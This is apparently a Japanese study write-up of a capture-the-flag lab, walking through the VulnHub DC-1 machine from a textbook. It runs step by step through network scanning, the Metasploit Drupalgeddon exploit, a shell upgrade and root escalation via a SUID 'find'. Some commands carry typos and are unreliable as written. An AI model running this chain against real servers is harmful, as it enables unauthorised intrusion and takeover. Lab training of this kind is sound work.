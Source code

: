 # EXPERIMENT #02 DC-1 のハッキング(P410)

## ハッキングの準備

- [DC-1](https://www.vulnhub.com/entry/dc-1,292)
- 難易度: 初級

## [実習] DC-1 マシンをハッキングする＜攻略＞

### 1. DC-1 マシンを起動する(p410)

```sh
$ export VM_NAME = VMの名前
$ VBoxManage startvm $VM_NAME  --type headless
```

### 2. ParrotOS マシンを起動する(p411)

Parrot マシンを起動してください

### 3. ParrotOS マシンの IP アドレスを調べる(p411)

現在のコマンドは`ip a` 以前は `ifconfig`コマンドを使用した
Web サイトや古い本には ifconfig で説明されていることが多いので各自置き換えること
また現在でも net-tools パッケージを入れると使用することができる

### 4. DC-1 マシンの IP アドレスを特定する(p411)

IP アドレスをスキャンするツールは netdiscover や nmap 等，色々あるがここでは fping を使用する
どのツールで man をみれば使えるようにしておきたい

```sh
parrot01$ fping -qag 192.168.56.0/24
```

### 5. IP アドレスを環境変数に設定する(p412)

よく使うものは変数にすると良い

```sh
parrot01$ export IP=IPアドレス
```

### 6. ポートスキャンする(p412)

```sh
parrot01$ nmap -sC -sV -p 1-65535 $IP
```

- sC デフォルトスキャン
- sV ソフトウェア名とヴァージョン
- p スキャンするポートを指定 -p- ですべて

このパターンのスキャンはよく使うのでエイリアス化しておく
Ubuntu では，.bash_aliases に記述しておくと良い

```sh
parrot01$ alias defaultscan='nmap -sC -sV -p- '
parrot01$ defaultscan $IP
```

### 7. HTTP サービスにアクセスする(p414)

```sh
parrot01$ curl -v http://$IP
```

### 8. よく使われる”robots.txt” ファイルにアクセスする(p414)

robots. txt ファイルとは、検索エンジンのクローラーに対して、サイトのどの URL にアクセスしてよいかを伝えるものである
それをみることによって，どのようなファイルやディレクトリがあるかを知ることができる。
ここでは MAINTAINERS.txt を覗くことによって CMS の情報を取る

```sh
parrot01$ curl -v http://$IP/robots.txt
> MAINTAINERS.txt

parrot01$ curl -v http://$IP/MAINTAINERS.txt
> ...Dropal 7
```

### 9. URL を環境変数に設定する(p416)

```sh
parrot01$ export URL="http://$IP:80/"
parrot01$ echo $URL # 確認用
```

### 10. Web サーヴィスでスキャンする(p417)

```sh
parrot01$ droopscan --help
> インストールされていない

parrot01$ mkdir ~/venv
parrot01$ python3 -m venv ~/venv/dc1
parrot01$ source ~/venv/dc1/bin/activate
parrot01$ pip install droopscan
parrot01$ droopscan --help # 確認

parrot01$ scan droopescan drupal -u $URL
> scan 結果
```

### 11. Drupal 用の Exploit を探す(p420)

Drupal の ヴァージョン 7 の Remote 用の exploit を検索

[Exploit Database](https://www.exploit-db.com)

### 12. Metasploit で Drupalgeddon を狙う(p422)

```sh
parrot01$ msfconsole
> search type:exploit drupal # Drupal用のexploitを検索
> use exploit/multi/http/drupal_drupageddon
>> show options ## オプション確認
>> set RHOSTS [ターゲット端末のIP]
>> set LHOSTS [攻撃用端末のIP]
>> show options ## 正しく設定されているか確認
```

### 13. Exploit モジュールの実行(p427)

```sh
parrot01$
>> run
(/var/www) > ls
> flag1.txt
(/var/www) > cat flag.txt
> Every good CMS needs a config file - and so do you.
```

### 14. Meterpreter セッションからシェルに切り替える(p428)

```sh
parrot01$
(/var/www) > shell
id

```

### 15. 対話的シェルを奪取する(p429)

```sh
which python
> /usr/bin/python
python -c 'import pty; pty.spawn("/bin/bash")'
www-data@DC-1:/var/www $ # prompt
```

### 16. OS を特定する(p431)

```sh
www-data@DC-1:/var/www $ uname -a
```

### 17. システム内を探索する(p431)

```sh
www-data@DC-1:/var/www $ ls  /home
> flag4

www-data@DC-1:/var/www $ cd /home/flag4
www-data@DC-1:/home/flag4 $ ll
> flag4.txt

www-data@DC-1:/home/flag4 $ cat flag4.txt
> Can you ....

www-data@DC-1:/home/flag4 $ cat .bash_history
> Permission denied
```

### 18. 一時ファイルの置き場所を調べる

```sh
www-data@DC-1:/home/flag4 $ ll /tmp
www-data@DC-1:/home/flag4 $ la /dev/shm
>  .tmpfs
www-data@DC-1:/home/flag4 $ file /dev/shm/.tmpfs
www-data@DC-1:/home/flag4 $ df -h
```

### 19. SUID ファイルを検索

```sh
www-data@DC-1:/home/flag4 $ find / -perm -u=s -type f 2> /dev/null
> /usr/bin/find
> /usr/sbin/exim4
```

### 20. find コマンドを利用してシェルを奪う(p435)

[GTFOBins](https://gtfobins.github.io)

```sh
www-data@DC-1:/home/flag4 $ /usr/bin/find . -exec /bin/bash -p \; -quit
bash # id
> groups=0(root)
bash # whoami
> root
```

### 21. フラグファイルを開く(p437)

```sh
bash # ls /root
> thefinalflag.txt
bash # cat thefinalflag.txt
```
